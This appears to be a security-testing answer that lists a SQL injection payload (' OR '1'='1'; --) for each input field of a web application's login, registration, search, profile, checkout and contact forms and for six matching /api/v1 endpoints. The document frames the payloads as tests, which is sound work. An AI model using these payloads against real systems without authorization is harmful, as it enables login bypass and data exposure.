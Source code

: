 Here are the SQL injection test payloads for each identified vulnerable input:

1. Login Form: 
   - Username field: ' OR '1'='1'; --
   - Password field: ' OR '1'='1'; --

2. Registration Form:
   - Email field: test' OR '1'='1'; --
   - Username field: test' OR '1'='1'; --
   - Password field: test' OR '1'='1'; --
   - Confirm Password field: test' OR '1'='1'; --

3. Search Bar:
   - Search input field: ' OR '1'='1'; --

4. User Profile:
   - First Name field: ' OR '1'='1'; --
   - Last Name field: ' OR '1'='1'; --
   - Email field: test' OR '1'='1'; --
   - Address field: ' OR '1'='1'; --

5. Checkout Page:
   - Credit Card Number field: 1234567890123456' OR '1'='1'; --
   - CVV field: 123' OR '1'='1'; --
   - Expiry Date field: 01/23' OR '1'='1'; --

6. Contact Us Form:
   - Name field: ' OR '1'='1'; --
   - Email field: test' OR '1'='1'; --
   - Message field: ' OR '1'='1'; --

API Endpoints:

1. /api/v1/login:
   - Parameters: username=test' OR '1'='1'; --, password=test' OR '1'='1'; --

2. /api/v1/register:
   - Parameters: email=test' OR '1'='1'; --, username=test' OR '1'='1'; --, password=test' OR '1'='1'; --, confirm_password=test' OR '1'='1'; --

3. /api/v1/search:
   - Parameters: query=' OR '1'='1'; --

4. /api/v1/user/profile:
   - Parameters: first_name=' OR '1'='1'; --, last_name=' OR '1'='1'; --, email=test' OR '1'='1'; --, address=' OR '1'='1'; --

5. /api/v1/checkout:
   - Parameters: card_number=1234567890123456' OR '1'='1'; --, cvv=123' OR '1'='1'; --, expiry_date=01/23' OR '1'='1'; --

6. /api/v1/contact:
   - Parameters: name=' OR '1'='1'; --, email=test' OR '1'='1'; --, message=' OR '1'='1'; --

These payloads can be used to test the security of the identified inputs and parameters against SQL injection attacks.